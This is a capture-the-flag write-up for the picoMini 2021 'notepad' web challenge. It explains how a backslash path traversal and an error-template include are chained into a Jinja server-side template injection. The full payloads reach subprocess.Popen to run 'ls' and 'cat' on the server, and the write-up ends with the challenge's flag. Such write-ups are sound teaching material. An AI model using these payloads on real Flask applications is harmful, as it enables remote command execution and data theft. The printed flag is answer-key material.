```yaml
---
title: picoMini by redpwn 2021 - notepad (web)
date: 2021-05-12
slug: /writeups/picomini-redpwn-notepad
excerpt: Writeup for notepad (web)
author: Diana Lin
---
```


Notepad was a web exploitation challenge from picoMini by redpwn 2021.

# Description
> This note-taking site seems a bit off.
>
> notepad.mars.picoctf.net

Files:
* [notepad.tar](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar)

The application is a simple note-taking site. When a new note is created, a file in the static folder is created, and the client is redirected to the file.

# Directory Traversal
We were provided a source so I checked that out. I first noticed the filters on the note's `content`.
```py
if "_" in content or "/" in content:
    return redirect(url_for("index", error="bad_content"))
```

The filter on `/` indicates that path traversal should be prevented. However, the created file's `name` looks odd.
```py
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
with open(name, "w") as f:
  f.write(content)
```

The filename is the first 128 characters of the content and a random token. It's a bit weird that they're normalizing the path with `url_fix(content[:128])`; that's our first vulnerability. Even though `/` is filtered, `\` is not, and `url_fix()` would normalize the backslashes to be `/`. We could use this to traverse the filesystem.

# Arbitrary Template Creation
Remember that error from the filter on `content`? That comes in handy now. On the index page, the error can be set to any arbitrary value by simply passing in another value to the `error` query parameter:
```
https://notepad.mars.picoctf.net/?error=error_name
```

This value is then used as the filename for a Jinja template in the `errors` subdirectory.
```html
{% if error is not none %}
  <h3>
    error: {{ error }}
  </h3>
  {% include "errors/" + error + ".html" ignore missing %}
{% endif %}
```

How is this useful? Well, we can create our own error template by using our path traversal technique to create a file in the `templates/errors` folder. This new template can then be rendered on the index page if we pass it in as a query parameter.

We can test a sample payload now:
```
..\templates\errors\
```

If we paste that into the text area on the index page and submit, we get redirected to a `Not Found` error page. Not to worry! Since we wrote to a file outside of the static folder, we can't access it from `/static/...`, which resulted in the 404. However, we can check out our payload by passing our filename (minus extension) into `error`. The path I got redirected to was `/templates/errors/-lww21e3EmpA.html` so I went to:
```
https://notepad.mars.picoctf.net/?error=-lww21e3EmpA
```

Lo and behold, our payload was printed back to us!

# Server-Side Template Injection
Since the error page is included as a Jinja template and not as a static page, we can utilize a server-side template injection to retrieve the flag. I found a great [reference](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) that detailed how to implement a SSTI with the Jinja template engine.


After the path of the `errors` folder, I padded the payload with `a` characters so that none of the injection was stored in the filename. While this is optional, I found that it made the request much cleaner because the filename isn't url encoded.

The next step is to find the `string` class. This is usually done with `''.__class__` but because of the filter on underscores, we can't insert `__class__` directly into the `content` parameter. We can, however, insert it into a different query parameter and reference it that way. We can then get the string class's [method resolution order](https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/) using `mro()`.

The second class in the `string` class's MRO is the `object` class so we can index to 1.
```py
[<class 'str'>, <class 'object'>]
```

If we call `object.__subclasses__()`, we can access all the classes that are available. Since underscores are filtered, we can access the function the same way we accessed `__class__`. Our full payload is now:
```py
p = "..\\templates\\errors\\" + "a" * 128 + "{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]() }}"
```

When we access the index page with the filename passed into `error`, we get an internal server error. This is because we didn't pass in the `class` or `subclasses` query parameters. After setting them to `__class__` and `__subclasses__`, respectively, a whole bunch of stuff is rendered.

![subclasses](./subclasses.png)

Nice! We got a whole bunch of classes from that. The most important of those is `subprocess.Popen`. To find the index of that class more easily, I pasted the stringified list into a Python shell (as a string), split the list on `, `, and called `l.index(" <class 'subprocess.Popen'>")` to find that the `subprocess.Popen` class is at index 273. That means that we can create a new `Popen` object to execute some pretty useful commands.

The provided Dockerfile showed that the flag is located in the app's root directory with a random UUID appended to it. Therefore, we need to find the flag's filename; we can `ls` the root directory and return the result with this injection:
```py
{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]()[273](['ls'], stdout=-1).communicate() }}
```

The flag's filename is `flag-c8f5526c-4122-4578-96de-d7dd27193798.txt`. Last but not least, we can `cat` the flag:
```py
{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]()[273](['cat', 'flag-c8f5526c-4122-4578-96de-d7dd27193798.txt'], stdout=-1).communicate() }}
```

# Flag
```
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```